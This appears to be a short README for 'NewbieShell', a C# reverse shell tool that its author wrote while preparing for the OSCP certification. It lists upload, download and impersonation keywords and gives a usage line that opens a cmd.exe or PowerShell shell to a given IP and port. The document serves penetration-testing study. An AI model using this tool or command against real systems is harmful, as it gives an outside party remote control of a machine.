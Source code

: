 # NewbieShell
### Reverse shell for beginners

When preparing for the OSCP certificate. 
I have seen some reverse shell in action. The most annoying thing for me was that a very long text is needed when downloading and uploading. 
Because I like to program in C#, I thought to myself. I simplify this a bit. 
Through this idea, Newbie - Shell was born. With short keywords the attacker has the possibility to list downloads, uploads, impersonate. This simplifies a lot.

Newbieshell.exe [ip] [port] [cmd.exe or powershell.exe] \n
Example: NewbieShell.exe 192.168.0.1 80 cmd.exe
